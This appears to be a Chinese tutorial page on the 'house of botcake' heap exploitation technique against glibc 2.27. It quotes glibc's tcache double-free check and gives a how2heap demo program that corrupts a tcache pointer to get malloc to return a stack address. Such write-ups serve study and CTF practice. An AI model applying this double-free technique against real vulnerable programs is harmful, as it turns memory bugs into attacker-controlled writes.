



## house_of_botcake——double free


glibc2.27中对tcache double free的检查导致无法像glibc2.23那样对fastbin double free利用，对于要free的且大小在tcache范围内的会将该堆块对整个链表进行校验对比，如果一样就会结束程序。

```c
static void
_int_free (mstate av, mchunkptr p, int have_lock)
{
    ····
	tcache_entry *e = (tcache_entry *) chunk2mem (p);

	/* This test succeeds on double free.  However, we don't 100%
	   trust it (it also matches random payload data at a 1 in
	   2^<size_t> chance), so verify it's not an unlikely
	   coincidence before aborting.  */
	if (__glibc_unlikely (e->key == tcache))
	  {
	    tcache_entry *tmp;
	    LIBC_PROBE (memory_tcache_double_free, 2, e, tc_idx);
	    for (tmp = tcache->entries[tc_idx];
		 tmp;
		 tmp = tmp->next)
	      if (tmp == e)
		malloc_printerr ("free(): double free detected in tcache 2");
	    /* If we get here, it was a coincidence.  We've wasted a
	       few cycles, but don't abort.  */
	  }
    ····
}

```


#### 示例代码（how2heap）

效果：堆块任意地址分配

主要步骤有以下几点

1.填充满tcache bin

2.malloc 两个chunk：prev和victim，并且free掉victim，victim（因为tcache bin满了）落入unsorted bin中，接着free prev，使得malloc_consolidate被调用，合并后的chunk落在unsorted bin中，且chunk地址为prev地址

3.通过malloc(）使得tcache bin有空位，并且通过free(victim)将victim放入tcache bin中（因为victim大小满足tcache bin的大小）

4.再次tmp=malloc(size)，其中size应该大于prev的大小+0x20，程序进入unsorted bin中寻找chunk，并将unsorted bin中的chunk 切片，并将切片剩余的chunk放在unsorted bin中。

5.malloc得到的tmp包含部分victim地址，通过tmp改写victim的fd指针，由于victim位于tcache bin中，修改了fd指针便实验了任意地址分配的能力。

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <assert.h>

int main()
{
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    intptr_t stack_var[4];
    intptr_t *x[7];
    for(int i=0; i<sizeof(x)/sizeof(intptr_t*); i++){
        x[i] = malloc(0x100);
    }
    intptr_t *prev = malloc(0x100);
    intptr_t *a = malloc(0x100);
    malloc(0x10);
    for(int i=0; i<7; i++){
        free(x[i]);
    }
    free(a);
    free(prev);
    malloc(0x100);
    free(a);
    intptr_t *b = malloc(0x120);
    b[0x120/8-2] = (long)stack_var;
    malloc(0x100);
    intptr_t *c = malloc(0x100);
    assert(c==stack_var);
    return 0;
}
```

执行到第23行时 prev和a合并放入unsorted bin中




执行到第24行，malloc的内存是从tcache bin中取出的




执行完第26行，tcache bin成功被污染




参考文章

https://blog.csdn.net/qq_40712959/article/details/115209640